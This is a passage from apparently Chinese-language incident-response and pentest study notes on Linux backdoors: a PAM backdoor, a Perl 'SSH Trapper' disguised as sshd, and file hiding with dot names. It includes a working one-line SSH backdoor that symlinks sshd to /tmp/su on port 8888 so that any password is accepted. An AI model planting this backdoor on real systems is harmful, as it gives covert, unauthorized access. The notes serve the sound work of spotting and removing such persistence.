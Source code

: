 ![image-20230227215331874](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227215331874.png)

4、替换原有PAM模块，添加后门

![image-20230227215410101](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227215410101.png)

5、后门测试

使用添加的代码test登录

![image-20230227215440599](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227215440599.png)





### ssh后门

执行下面的命令后可使用任意密码ssh连接目标机器8888端口

```
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
# -f : 链结时先将与 dist 同档名的档案删除
# -s : 进行软链结(symbolic link)
```



### SSH Trapper后门

后门比较隐蔽，没有开放额外的端口，只要对方开了ssh服务，就能远程连接，如果源端口是8888就直接反弹shell，否则就把请求转发给真正的ssh服务
后门伪装成一个 perl脚本，名为sshd，位于/usr/sbin/sshd，将系统原来的sshd移到/usr/bin 下创建后门

![image-20230227220033711](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227220033711.png)

连接后门

![image-20230227220049034](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227220049034.png)

修改后门的端口

![image-20230227220103316](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227220103316.png)



### 建立./..文件/文件夹

linux中每个目录下面都有`.`和`..`这两个文件夹，分别代表当前目录和上级目录

用`·`作为文件或者文件夹名也是一个比较好的隐藏办法

ls 命令无法查看，ls -a命令可以查看

![image-20230227195042932](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227195042932.png)

这种方法建立的文件无法通过rm + tab删除，除非知道文件名后面有多少个转义字符





### /etc/hosts.allow和/etc/hosts.deny

参考：https://blog.csdn.net/yjk13703623757/article/details/119869930





病毒分析软件大集合：https://github.com/rshipp/awesome-malware-analysis

